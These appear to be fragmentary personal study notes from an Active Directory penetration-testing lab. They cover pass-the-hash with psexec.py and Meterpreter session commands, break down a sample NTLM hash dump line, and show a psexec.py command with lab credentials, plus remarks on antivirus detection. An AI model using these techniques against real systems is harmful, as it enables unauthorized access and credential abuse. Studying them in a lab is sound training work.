 
Metasploit but there are chances that it could get picked up
but there are alternatives.

Not get picked up as much as Metasploit.
psexec.py


Pass the hash
Could also use the hash if we are not able to crack the hash


Meterpreter command
```
background
```

```
sessions
```

 
 Now you know that we have NTLM so let's explore which part is which
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
```

LM
```
aad3b435b51404eeaad3b435b51404ee
```

NT
```
7facdc498ed1680c4fd1448319a8c04f
```

But we need the whole hash when doing pass the hash attacks.

```
psexec.py MARVEL/fcastle:'Password1'@192.168.17.140
```
but but but as the AV is on it will get picked up and we won't be able to get the shell

![[Pasted image 20240122204822.png]]

![[Pasted image 20240122204923.png]]

